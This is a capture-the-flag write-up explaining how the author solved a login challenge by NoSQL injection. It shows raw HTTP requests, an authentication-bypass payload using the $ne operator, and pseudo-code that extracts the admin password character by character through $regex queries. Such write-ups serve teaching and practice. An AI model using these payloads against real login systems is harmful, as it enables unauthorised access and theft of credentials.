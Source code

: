 # Get the admin password! writeup

The challenge is to get the admin password(the flag), as help we have a valid login credential test:test [link to get the admin password.](http://gap.chal.ctf.westerns.tokyo/login.php)

Let's begin to fire up burp suite and ispect the HTTP traffic.

```
POST /login.php HTTP/1.1
Host: gap.chal.ctf.westerns.tokyo
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://gap.chal.ctf.westerns.tokyo/login.php
Cookie: PHPSESSID=1fkfqnd5bldo58srnviecig305
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

user=test&password=test
```
3 possible parameter to try _injection_ : **PHPSESSID**, **user** and **password**.
And 2 possible approach:

* SQLi
* NoSQLI

#### SQLi
Start `pirate$ sqlmap -r tosqli(The POST Request above) --dbs (Try different level and econding)` and... _Nothing_!

#### NoSQLi

Spend some time in fuzzing hope to raise some error, but nothing... 
Next step: Try password with condition!!!

From the Sequencer:
```
POST /login.php HTTP/1.1
Host: gap.chal.ctf.westerns.tokyo
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://gap.chal.ctf.westerns.tokyo/login.php
Cookie: PHPSESSID=1fkfqnd5bldo58srnviecig305
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

user=admin&password[$ne]=a
```
Explained: Login is successful if password is not equal($ne) to a

The response:

```
You are admin.
The flag is admin password. Admin password format is "TWCTF{...}". 
```

Ok, now run a simple script that guess every single char until '}'(end of flag).

The naif algo(pseudo-code) O(n) and very slow(about 10' on my PC):
```
flag=""

while True:
	for guess in range(!...}): # the charset
		
		# Login if password[$regex]=^+flag+guess
		if request(flag+guess):
			flag += guess
			
			if guess == '}':
				quit()
			else:
				break 
```

My alternative is to use a Binary(Dicotomic)Search to improve the Search.
The intuition is to use the $lt(lower than) or $gt(greater than) to restrict the window of the char to guess in the charset; look at `nosqli.py` to see the implementation. 










